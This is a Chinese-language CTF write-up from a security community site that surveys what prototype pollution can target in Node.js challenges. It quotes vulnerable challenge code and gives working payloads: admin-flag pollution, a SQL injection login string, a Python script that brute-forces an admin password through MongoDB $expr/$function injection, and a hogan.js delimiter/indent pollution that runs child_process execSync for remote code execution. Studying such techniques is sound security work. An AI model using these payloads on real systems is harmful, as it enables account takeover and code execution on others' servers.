


# CTF 中原型链污染位点探究 - 先知社区

CTF 中原型链污染位点探究

- - -

## 原型链污染位点探究

### Background

随着原型链漏洞的考点已经被挖的差不多了，更多题目中现在考察的都是怎么使用原型链污染，也就是该污染什么。本文来简单整理下

### 前置知识点

解释什么是原型的文章太多了，我这里就说下什么时候能原型链污染，数组（对象）的“键名”可控时候，设置`__proto__`的值，而最常见的控制键名的操作就是 merge 函数，如果一个库里有 merge 函数，我们就可以多注意一下

### 污染特定属性

其实污染属性只是基础，很多时候我们要污染属性来进行下一步，简单的题目可以直接一步污染

比如

```plain
{
  "__proto__": {
    "isAdmin": "true"
  }
}
```

来把某些低权用户变成 admin

某道 xss 的题目 漏洞代码如下

```plain
app.post('/register', (req, res) => {
    const username = req.body.username + '';
    const password = req.body.password + '';
    const country = req.body.country + ''

    if (username.length > 0 && password.length > 0 && country.length > 0 && username != ADMIN_ID) {
        const user = {password: password, country: country, content: 'hello', viewtime: dayjs(getRandomDateTime()), checked: false};
        accounts[username] = user;
        res.send(`<script>location.href='/login';</script>`);
    } else {
        res.send(`<script>alert('fail');history.back();</script>`);
    }

});
app.post('/write', (req, res) => {
    if (req.session && req.session.username) {
        const username = req.session.username;
        const content = req.body.content + '';
        const minutes = parseInt(req.body.minutes);
        const seconds = parseInt(req.body.seconds);

        if (0 <= minutes && minutes < 60 && 0 <= seconds && seconds < 60 ) {
            accounts[username].content = content;
            if (accounts[username].checked) {
                accounts[username].viewtime = dayjs().add(seconds, 'second').add(minutes, 'minute');
            }

            res.send(`<script>location.href='/view?username='+'${username}';</script>`);
        } else {
            res.send(`<script>alert('fail');history.back();</script>`);
        }
    } else {
        res.send(`<script>alert('fail');history.back();</script>`);
    }
});
app.get('/clear', isAdmin, (req, res) => {
    if (req.session?.username === 'clear_account') {
        accounts = {};
        ADMIN_PS = crypto.randomBytes(30).toString('hex');
        accounts[ADMIN_ID] = {'password': ADMIN_PS, country: 'ko', content: 'hello', viewtime: dayjs(), checked: true};
        res.send(`<script>history.back();</script>`);
    } else {        
        res.send(`<script>alert('fail');history.back();</script>`);
    }
});

app.get('/check', (req, res) => {
    if (req.session.username && accounts[req.session.username].viewtime.format('YYYY-MM-DD HH:mm:ss') === req.query?.day + '') {
        accounts[req.session.username].checked = true;
        res.send(`<script>history.back();</script>`);
    } else {        
        res.send(`<script>alert('fail');history.back();</script>`);
    }
});
```

阅读代码 发现功能点 我们现在想要 check 为 true，需要知道一个 viewtime

如果在创建内容后将`__proto__`清除为用户名，将 country 清除为内容，就会导致写入内容时出现原型链污染。因此，viewtime 可能会泄露

当然比较有意思的一点，如果 country 设置为不存在的国家 在 js 里出现 undefined 会以 ISO 8601 格式显示，可以避开原型链污染

### 污染进行 SQL 注入

在刚刚结束的 DiceCTF 中 有这么一道题

```plain
app.post("/api/login", (req, res) => {
    const { user, pass } = req.body;

    const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
    try {
        const id = db.prepare(query).get()?.id;
        if (!id) {
            return res.redirect("/?message=Incorrect username or password");
        }

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
        return res.redirect("/?message=This system is currently only available to admins...");
    }
    catch {
        return res.redirect("/?message=Nice try...");
    }
});
```

isAdmin\[user\]) 有个 admin 判断来获取 flag

如果我们设置用户名为`isAdmin[__prototype__]=true` 就可以了

```plain
username: __prototype__ password: 1' or id=1; -
```

可以成功获得 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205193825-129beff6-c41b-1.png)

某个圣诞节比赛中其中有这么一段代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205193818-0eae9ab0-c41b-1.png)

可以看到使用了 JSON.parse `__proto__`会被认为是一个真正的“键名”

我搜索了 flag 相关字样，发现在 admin services 中提到了 flag，也就是我们要成为 admin

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205193845-1ea2330a-c41b-1.png)

所以可以很简单的识别出可能需要知道 admin 的密码，也很容易想到可以尝试 sql 注入，在这里用了 mongodb，所以可以想到通过 nosql 进行注入

但 validate 里检查用户的账号密码是否存在

```plain
@Injectable()
export class ValidationService {
  async validateData(dtoClass: any, data: any): Promise<any> {
    console.log(data);
    try {
      const target = plainToClass(dtoClass, data);
      const errors = await validate(target);
      console.log(errors);
      if (errors.length > 0) {
        return false;
      }
      return target;
    } catch (error) {
      // error occured
      return false;
    }
  }
}
```

validate 会检查用户和密码是否存在，将密码设置为{}.proto 即可继续注入，最后，虽然设置了过滤$where，但通过搜索可以看到，其实可以使用$expr 的形式 官方 poc 大致如下

```plain
for bf in range(32):
    for i in '0123456789abcdef':
        r = post(f'{URL}/user/login', data={
            'username': 'admin", "__proto__": {"a":"haha',
            'password': 'testpw"}, "$expr": \
                {\
                    "$function":\
                    {\
                        "body": "function(pw) { return pw['+ str(bf) +'] == \''+ i +'\' }",\
                        "args": ["$password"],\
                        "lang": "js"\
                    }\
                }, "username": "admin'.replace(' ', '').replace('returnpw', 'return pw')
        }).json()

        if r['statusCode'] == 403:
            adminPW += i
            print(adminPW)
            break
```

### 污染模版内容 rce

常见的 ejs rce 太多了，大家可以自己搜索

我这里提一个比较有意思的 hogan 模板

```plain
const express = require("express");
const { open } = require("sqlite");
const sqlite = require("sqlite3");
const hogan = require("hogan.js");

const app = express();
app.use((req, res, next) => {
  res.setHeader("connection", "close");
  next();
});
app.use(express.urlencoded({ extended: true }));

const loadDb = () => {
  return open({
    driver: sqlite.Database,
    filename: "./data.sqlite",
  });
};

const defaults = {
  city: "*",
};

const UNSAFE_KEYS = ["__proto__", "constructor", "prototype"];

const merge = (obj1, obj2) => {
  for (let key of Object.keys(obj2)) {
    if (UNSAFE_KEYS.includes(key)) continue;
    const val = obj2[key];
    key = key.trim();
    if (typeof obj1[key] !== "undefined" && typeof val === "object") {
      obj1[key] = merge(obj1[key], val);
    } else {
      obj1[key] = val;
    }
  }

  return obj1;
};

const TEMPLATE = `
<table border="1">
  <thead>
    <tr>
      <th>City</th>
      <th>Pollution index</th>
      <th>Year</th>
    </tr>
  </thead>
  <tbody>
  {{#data}}
    <tr>
      <td>{{city}}</td>
      <td>{{pollution}}</td>
      <td>{{year}}</td>
    </tr>
  {{/data}}
  {{^data}}
    Nothing found
  {{/data}}
  </tbody>
</table>
`;

app.post("/get-data", async (req, res) => {
  const db = await loadDb();
  const reqFilter = req.body;
  const filter = {};
  merge(filter, defaults);
  merge(filter, reqFilter);

  const template = hogan.compile(TEMPLATE);

  const conditions = [];
  const params = [];
  if (filter.city && filter.city !== "*") {
    conditions.push(`city LIKE '%' || ? || '%'`);
    params.push(filter.city);
  }

  if (filter.year) {
    conditions.push("(year = ?)");
    params.push(filter.year);
  }

  const query = `SELECT * FROM data ${
    conditions.length > 0 ? `WHERE ${conditions.join(" AND ")}` : ""
  }`;
  const data = await db.all(query, params);
  try {
    return res.send(template.render({ data }));
  } catch (ex) {
  } finally {
    await db.close();
  }
  const f = `return ${template}`;
  try {
    res.json({ error: Function(f)() });
  } catch (ex) {
    res.json({ error: ex + "" });
  }
});

app.use(express.static("./public"));

app.listen(1339, () => {
  console.log(`Listening on http://localhost:1339`);
});
```

关注这段代码

```plain
const UNSAFE_KEYS = ["__proto__", "constructor", "prototype"];

const merge = (obj1, obj2) => {
  for (let key of Object.keys(obj2)) {
    if (UNSAFE_KEYS.includes(key)) continue;
    const val = obj2[key];
    key = key.trim();
    if (typeof obj1[key] !== "undefined" && typeof val === "object") {
      obj1[key] = merge(obj1[key], val);
    } else {
      obj1[key] = val;
    }
  }
```

可以看到实际上进行的 merge，就会造成键名可控 意思是

```plain
{
  "__proto__ ": {
    "polluted": "test"
  }
}
```

我们如果如上输入，就可以进行污染

而上面 UNSAFE\_KEYS 的检查可以很简单的通过一个空格来跳过

那就可以来研究 hogan 了

在这里 允许我们将代码直接注入到通过污染生成的代码中`Object.prototype.indent`

```plain
function createPartial(node, context) {
  var prefix = "<" + (context.prefix || "");
  var sym = prefix + node.n + serialNo++;
  context.partials[sym] = {name: node.n, partials: {}};
  context.code += 't.b(t.rp("' +  esc(sym) + '",c,p,"' + (node.indent || '') + '"));'; // [2]
  return sym;
}
```

但是我们 function 没法使用

hogan 中指定自定义分隔符`options.delimiters`，我们可以通过 polluting 来设置`Object.prototype.delimiters`。

我们来看下具体内容

```plain
Hogan.compile = function(text, options) {
  options = options || {};
  ...
  template = this.generate(this.parse(this.scan(text, options.delimiters), text, options), text, options);
  return this.cache[key] = template;
}

Hogan.scan = function scan(text, delimiters) { // this parses the template into AST
  ...
  if (delimiters) {
    delimiters = delimiters.split(' ');
    otag = delimiters[0];
    ctag = delimiters[1];
  }
  ...
}
```

`options.delimiters`被传递到`Hogan.scan()`，它从 派生出开始标记标记 ( `otag`) 和结束标记标记 ( `ctag`) `options.delimiter`。

那就说找到一个`>`就可以在周围解析代码，因为题目中给了一段 html 代码，所以找到太容易了

```plain
__proto__ [delimiters]=tr %0a'
__proto__ [indent]=/*"));return process.mainModule.require(`child_process`).execSync(`/flag`).toString()//*/
```

这样设置即可 rce
